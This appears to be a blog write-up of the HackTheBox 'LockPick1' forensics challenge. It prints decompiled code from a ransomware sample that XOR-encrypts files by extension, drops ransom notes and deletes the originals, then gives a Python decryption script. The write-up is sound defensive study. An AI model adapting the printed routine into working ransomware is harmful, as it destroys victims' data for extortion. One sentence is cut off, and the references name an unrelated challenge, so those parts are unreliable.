 ```yaml
---
layout: post
author: Julio
date: 07-05-2024
title: LockPick1 Write-Up
---
```


<div class="center"><img src="https://labs.hackthebox.com/storage/challenges/11b921ef080f7736089c757404650e40.png" width="350"></div>

# LockPick1 Write-Up

## Introduction

<p>LockPick is an "Easy" sherlock challenge on HackTheBox. This is the scenario: "Forela needs your help! A whole portion of our UNIX servers have been hit with what we think is ransomware. We are refusing to pay the attackers and need you to find a way to recover the files provided. Warning This is a warning that this Sherlock includes software that is going to interact with your computer and files. This software has been intentionally included for educational purposes and is NOT intended to be executed or used otherwise. Always handle such files in isolated, controlled, and secure environments. Once the Sherlock zip has been unzipped, you will find a DANGER.txt file. Please read this to proceed."</p>
<p>We start with a file called <custom-code>lockpick1.zip</custom-code> and we unzip it to get <custom-code>bescrypt.zip</custom-code> and a bunch of encrypted files inside a folder called <custom-code>forela-criticaldata</custom-code>. We can unzip the second compressed file with a password inside a note that we get when decompressing the first file. We will get a Linux binary called <custom-code>bescrypt3.2</custom-code>.</p>

## Questions

### 1. Please confirm the encryption key string utilised for the encryption of the files provided?

```c
undefined8 main(void)

{
  process_directory("/forela-criticaldata/","bhUlIshutrea98liOp");
  return 0;
}
```

```c
void process_directory(char *param_1,undefined8 param_2)

{
  int iVar1;
  char *pcVar2;
  char local_418 [1024];
  dirent *local_18;
  DIR *local_10;

  local_10 = opendir(param_1);
  if (local_10 == (DIR *)0x0) {
    printf("Error opening directory: %s\n",param_1);
  }
  else {
    while (local_18 = readdir(local_10), local_18 != (dirent *)0x0) {
      iVar1 = strcmp(local_18->d_name,".");
      if ((iVar1 != 0) && (iVar1 = strcmp(local_18->d_name,".."), iVar1 != 0)) {
        snprintf(local_418,0x400,"%s/%s",param_1,local_18->d_name);
        if (local_18->d_type == '\x04') {
          process_directory(local_418,param_2);
        }
        else if ((local_18->d_type == '\b') &&
                (((((pcVar2 = strstr(local_18->d_name,".txt"), pcVar2 != (char *)0x0 ||
                    (pcVar2 = strstr(local_18->d_name,".sql"), pcVar2 != (char *)0x0)) ||
                   (pcVar2 = strstr(local_18->d_name,".pdf"), pcVar2 != (char *)0x0)) ||
                  ((pcVar2 = strstr(local_18->d_name,".docx"), pcVar2 != (char *)0x0 ||
                   (pcVar2 = strstr(local_18->d_name,".xlsx"), pcVar2 != (char *)0x0)))) ||
                 ((pcVar2 = strstr(local_18->d_name,".csv"), pcVar2 != (char *)0x0 ||
                  ((pcVar2 = strstr(local_18->d_name,".json"), pcVar2 != (char *)0x0 ||
                   (pcVar2 = strstr(local_18->d_name,".xml"), pcVar2 != (char *)0x0)))))))) {
          printf("Encrypting: %s\n",local_418);
          encrypt_file(local_418,param_2);
        }
      }
    }
    closedir(local_10);
  }
  return;
}
```

<p>We can confirm that the key is <custom-code>bhUlIshutrea98liOp</custom-code>.</p>

```c
void encrypt_file(char *param_1,char *param_2)

{
  byte bVar1;
  ulong uVar2;
  int iVar3;
  size_t sVar4;
  char local_848 [1024];
  char local_448 [1032];
  FILE *local_40;
  void *local_38;
  size_t local_30;
  FILE *local_28;
  ulong local_20;

  local_28 = fopen(param_1,"rb");
  if (local_28 == (FILE *)0x0) {
    printf("Error opening file: %s\n",param_1);
  }
  else {
    fseek(local_28,0,2);
    local_30 = ftell(local_28);
    rewind(local_28);
    local_38 = malloc(local_30);
    fread(local_38,1,local_30,local_28);
    fclose(local_28);
    for (local_20 = 0; uVar2 = local_20, (long)local_20 < (long)local_30; local_20 = local_20 + 1) {
      bVar1 = *(byte *)((long)local_38 + local_20);
      sVar4 = strlen(param_2);
      *(byte *)((long)local_38 + local_20) = bVar1 ^ param_2[uVar2 % sVar4];
    }
    snprintf(local_448,0x400,"%s.24bes",param_1);
    local_28 = fopen(local_448,"wb");
    fwrite(local_38,1,local_30,local_28);
    fclose(local_28);
    free(local_38);
    snprintf(local_848,0x400,"%s_note.txt",local_448);
    local_40 = fopen(local_848,"w");
    if (local_40 == (FILE *)0x0) {
      printf("Error creating note file: %s\n",local_848);
    }
    else {
      fwrite("This file has been encrypted by bes24 group, please contact us at bes24@protonmail.com  to discuss payment for us providing you the decryption software..\n"
             ,1,0x99,local_40);
      fclose(local_40);
    }
    iVar3 = remove(param_1);
    if (iVar3 != 0) {
      printf("Error deleting original file: %s\n",param_1);
    }
  }
  return;
}
```

<p>We can</p>

```python
#!/usr/bin/python3

import os

files = []
key = "bhUlIshutrea98liOp"

def listFiles():
    my_files = os.listdir(".")
    for file in my_files:
        try:
            if file.split(".")[2] == "24bes":
                files.append(file)
        except:
            pass

def decryptFiles():
    for file in files:
        with open(file, "rb") as encrypted_file:
            data = encrypted_file.read()
            key_bytes = key.encode("utf-8")
            decrypted_data = bytes([byte ^ key_bytes[i % len(key_bytes)] for i, byte in enumerate(data)])

            print(f'[!] Decrypting {file}...')
            with open(file + ".decrypted", "wb") as d_file:
                d_file.write(decrypted_data)
                d_file.close()
            encrypted_file.close()

listFiles()
decryptFiles()
```

<p>We get the following output:</p>

```bash
python3 decrypt_files.py
[!] Decrypting complaints.csv.24bes...
[!] Decrypting sales_forecast.xlsx.24bes...
[!] Decrypting customer-feedback.json.24bes...
[!] Decrypting it_assets.xml.24bes...
[!] Decrypting forela_uk_applicants.sql.24bes...
[!] Decrypting trading-firebase_bkup.json.24bes...
```

### 2. We have recently recieved an email from wbevansn1@cocolog-nifty.com demanding to know the first and last name we have him registered as. They believe they made a mistake in the application process. Please confirm the first and last name of this applicant.

<p>We can run</p>

```bash
cat forela_uk_applicants.sql.24bes.decrypted | grep wbev
(830,'Walden','Bevans','wbevansn1@cocolog-nifty.com','Male','Aerospace Manufacturing','2023-02-16'),
```

<p>The right answer is <custom-code>Walden Bevans</custom-code>.</p>

## References

- <a href="https://app.hackthebox.com/sherlocks/Recollection">https://app.hackthebox.com/sherlocks/Recollection</a>
- <a href="https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/memory-dump-analysis/volatility-cheatsheet">https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/memory-dump-analysis/volatility-cheatsheet</a>
- <a href="https://github.com/volatilityfoundation/volatility/wiki/Command-Reference">https://github.com/volatilityfoundation/volatility/wiki/Command-Reference</a>
